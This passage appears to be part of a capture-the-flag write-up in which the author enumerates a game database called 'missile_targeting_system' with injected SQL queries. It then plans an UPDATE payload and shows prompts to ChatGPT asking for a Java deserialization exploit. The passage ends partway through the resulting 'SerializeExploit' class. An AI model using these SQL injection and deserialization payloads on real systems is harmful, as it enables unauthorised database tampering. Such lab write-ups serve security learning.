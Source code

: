 ; SELECT * FROM `missile_targeting_system`.`target_coordinates`

Return values: | id: 1 | lat: 1.14514 | lng: -145.262 | 
```


=== ":simple-mysql: SQL"
    ```sql hl_lines="2 7 9 11" title="SQL Code"
    -- To select all data from the pointing_mode_to_str table
    ; SELECT * FROM `missile_targeting_system`.`pointing_mode_to_str`
    ```

=== ":material-source-repository-multiple: Return values"
    ![NanoSta](../img/objectives/o22/pointing_mode.png){ class=border }


    

Then we need more enumerations. 

=== ":simple-mysql: SQL"
    ```sql hl_lines="2 7 9 11" title="SQL Code"
    ; SELECT * FROM `missile_targeting_system`.`satellite_query`
    ; SHOW COLUMNS FROM missile_targeting_system.satellite_query;
    ; DESCRIBE missile_targeting_system.satellite_query;
    ```

=== ":material-source-repository-multiple: Return values"
    ![NanoSta](../img/objectives/o22/satellite_query.png){ class=border }

We now can deduce the following UPDATE command we want to execute to update the pointing_mode: 

```; UPDATE `missile_targeting_system`.`pointing_mode` SET `numerical_mode` = 1 WHERE `id` = 1```

Query via Debug submitAction was denied with no surprise. 

I asked ChatGPT to write me a Java script. 

Prompt: 
```
Our DB: missile_targeting_system
Our Table: pointing_mode
Columns: id, numerical_mode

In this CTF the server can deserialize any object inserted into the object column. Can you craft a serializable object that will update the pointing mode "; UPDATE `missile_targeting_system`.`pointing_mode` SET `numerical_mode` = 1 WHERE `id` = 1"?
```

```
How to INSERT the “serialized object data” to the table satellite_query in database missile targeting_system? We also need to use UNHEX() to make sure it was decoded when the server received it. 
```

We now have working Java script: 

```bash linenums="1" hl_lines="7" title="Just Java Code"
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class SerializeExploit {
    public static void main(String[] args) {
        SatelliteQueryFileFolderUtility exploitObject = new SatelliteQueryFileFolderUtility(
            "UPDATE `missile_targeting_system`.`pointing_mode` SET `numerical_mode` = 1 WHERE `id` = 1;",
```
